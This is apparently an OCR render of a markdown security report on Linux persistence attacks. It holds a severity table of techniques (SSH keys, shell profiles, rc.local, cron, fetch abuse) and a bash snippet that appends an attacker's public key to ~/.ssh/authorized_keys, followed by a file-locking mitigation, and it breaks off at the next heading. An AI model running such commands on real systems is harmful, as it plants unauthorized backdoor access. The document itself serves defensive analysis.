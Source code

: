       |--------------|------------|--------------------|----------------|                                                                                                                                                              
      | SSH Key Escalation | 9.0 | Credential Dumping | `.ssh/authorized_keys` manipulation |                                                                                                                                          
      | Shell Profile Hijacking | 8.5 | Reverse Shells | `.bashrc`/`.profile` injection |                                                                                                                                              
      | Boot Script Persistence | 9.8 | Root-level Backdoors | `/etc/rc.local` modification |                                                                                                                                          
      | Runtime File Download | 9.2 | Remote Payload Execution | Native `fetch` tool abuse |                                                                                                                                           
      | Cron Job Hijacking | 8.2 | Scheduled Callbacks | `/etc/crontab` injection |                                                                                                                                                    
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## Technical Exploit Scenarios                                                                                                                                                                                                   
                                                                                                                                                                                                                                       
      ### 1. **SSH Credential Escalation**                                                                                                                                                                                             
      ```bash                                                                                                                                                                                                                          
      # Attacker paralyzed authentication                                                                                                                                                                                              
      touch /tmp/attack.log                                                                                                                                                                                                            
      echo "pubkey=\"\$(cat ~/.ssh/authorized_keys)\"" >> /tmp/attack.log                                                                                                                                                              
      echo "ssh-rsa ATTACKER_PUBKEY elite_entry" >> ~/.ssh/authorized_keys                                                                                                                                                             
      ```                                                                                                                                                                                                                              
      **Mitigation**:                                                                                                                                                                                                                  
      ```bash                                                                                                                                                                                                                          
      chmod 600 ~/.ssh/authorized_keys && chattr +i ~/.ssh/authorized_keys                                                                                                                                                             
      ```                                                                                                                                                                                                                              
      **Reference**: [NIST SP 800-53 AC-17](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)                                                                                                                           
                                                                                                                                                                                                                                       
      ### 2. **Session Hijacking Through Shell Profiles**                                                                                                                                                                              